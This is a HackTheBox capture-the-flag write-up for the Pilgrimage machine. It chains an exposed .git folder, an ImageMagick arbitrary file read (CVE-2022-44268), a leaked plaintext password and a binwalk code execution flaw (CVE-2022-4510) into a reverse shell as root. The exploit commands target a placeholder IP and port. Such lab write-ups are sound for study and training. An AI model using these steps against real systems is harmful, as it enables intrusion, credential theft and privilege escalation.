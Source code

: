 # [Pilgrimage](https://app.hackthebox.com/machines/Pilgrimage) - 28/06/2023 - HackTheBox write-up

## User flag

### Discovery

First with a Nmap we can only find a SSH and a HTTP server, so it will be only a web based flag for the user. By navigate in the webpages nothing seems interesting, so I quickly run a `dirsearch` to gather more informations :
```bash
$ dirsearch -u http://pilgrimage.htb/
[...]
[09:48:14] 200 -    2KB - /.git/COMMIT_EDITMSG
[09:48:14] 200 -   73B  - /.git/description
[09:48:14] 200 -   23B  - /.git/HEAD
[09:48:14] 200 -  240B  - /.git/info/exclude
[09:48:14] 200 -   92B  - /.git/config
[09:48:14] 200 -    4KB - /.git/index
[09:48:14] 200 -  195B  - /.git/logs/HEAD
[09:48:14] 200 -  195B  - /.git/logs/refs/heads/master
[09:48:14] 200 -   41B  - /.git/refs/heads/master
```

We can find with it some interesting files in a forgotten `.git/` folder. In the `.git/COMMIT_EDITMSG` file we can find a listing of the committed files. There is PHP, JS, CSS and font style files, but also, one file who seems interesting, called `magick`.

We get it with `wget` and then execute the `file` command on it. It's a ELF-64 executable and we can quickly identify it as the *ImageMagick* executable. It makes sense because the web application purpose is to shrink images.

### Searching for vulnerability

With this executable we can run :
```bash
$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

The version isn't the latest release so we can search for any known CVEs on this version.

We find the **CVE-2022-44268**, who can use exploit ImageMagick to an arbitrary file read. There is a POC for this CVE, and in this POC an exemple use the resize command for test, so it must be this CVE to exploit.

### Exploitation

The POC can be found here : *https://github.com/voidz0r/CVE-2022-44268*.

It's a Rust program and we just need to run this command to generate the exploit image :
```bash
$ cargo run "file/to/read"
```

Then we can upload it, get the image response and inspect it with :
```
$ identify -verbose response.png
```

We get some hex string, and by decoding it with Python we can read our file. To make the manipulation easier I made a script who use this CVE to read a given file.

### Problems

With this exploit, I thought that the user flag is already mine, and I try to read the PHP file and find some credentials. But after some tries I cannot read those files, I can just read the `/etc/passwd` and some other files but nothing interesting.

After some time, I came back to the Git folder and use [`GitDump`](https://github.com/Ebryx/GitDump) to dump all the files in the repository. Then, I can find the Git objects, who contains all the files in the repo in a compressed format. With some scripts, I decompress the data and obtain all the source code of the web application.

Finally, we can find in the `index.php` the path to the database: `/var/db/pilgrimage`.

Now, I can come back to the exploit, and get the SQLite database with it. Then I can open it and dump the users tables, where we can find the passwords (in plain text):
```
emily:abigchonkyboi123
[...]
```

We can just reuse this password to obtain a SSH access to the server with the account of the same name, and then read the flag !

## Root flag

On the server, I found a `linpeas.sh` create by another user, so I directly start to enumerate. At first, I didn't find anything interesting in the scan, so I try other things. I searched in the home directory and we can found a configuration folder with a subdirectory `.config/binwalk`. So, these might be a clue and we need to follow it. Indeed, `binwalk` is installed in version 2.3.2. By searching *"binwalk v2.3.2"* we instantly find a well-known vulnerability: **CVE-2022-4510**. This vulnerability can be used to get remote code execution.

Quickly we can found a [POC](https://www.exploit-db.com/exploits/51249), and test it with our user `emily`. With the following commands we can get a reverse shell to our machine:
```
$ python3 exploit.py anyimage.png <IP> <PORT>
$ binwalk -e anyimage.png
```
The vulnerability trigger when extracting file with binwalk, so the last command will execute the python reverse shell previously added in the image with the POC.

### Searching for elevating privileges

Now, we have the vulnerability but we need to find a way to run the `binwalk -e <img>` as root. I came back to the enumeration and I found a file in running processes that doesn't catch my eyes the first time: `/usr/sbin/malwarescan.sh`. It contains the following script:
```
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```
In this script, who run as root, we can find that it used `binwalk -e` to detect if a file contains a script and remove it if it's the case. It extract all the files created in `/var/www/pilgrimage.htb/shrunk/` who comes from the web application upload, and detect it with the `inotifywait` command.

### Exploitation

So, we have now the vulnerability and the privilege escalation and we just have to run the following commands to obtain a reverse shell as root:
```bash
$ python3 exploit.py anyimage.png <IP> <PORT>
```
The result image is saved as *binwalk_exploit.png*
```bash
$ mv binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```
The script will detect a new file, try to extract it and trigger the reverse shell.
